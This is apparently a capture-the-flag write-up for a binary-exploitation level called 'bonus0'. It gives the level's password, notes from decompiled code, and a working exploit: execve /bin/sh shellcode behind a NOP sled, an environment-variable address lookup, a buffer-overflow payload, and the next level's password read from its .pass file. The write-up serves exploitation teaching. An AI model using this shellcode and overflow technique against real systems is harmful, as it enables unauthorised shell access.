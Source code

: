 # Bonus 0
*password : f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728*

```
$ scp -P 4242 bonus0@192.168.56.108:bonus0 binary/
```
~uVar2 => inverse chaque bit
```
    *(undefined2 *)(str + (~uVar2 - 1)) = 32;
```
- 32 = `space`
- uVar2 = `4294967295 - strlen(input1)`
- `~uVar2 - 1` = len of input1
- ex: if no overflow -> "input1`space`input2"

"reduce" shellcode :
```
$ scp -P 4242 bonus0/Ressources/getenv.c bonus0@192.168.56.108:/tmp/
```
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
$ cd /tmp
$ gcc getenv.c
$ ./a.out
0xbffff83f
```

```
$ python -c 'print "\x90" * 4095 + "\n" + "\x90" * 9 + "\x3f\xf8\xff\xbf" + "\x42" * 8' > /tmp/bonus0
$ cat /tmp/bonus0 - | ./bonus0 
...
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
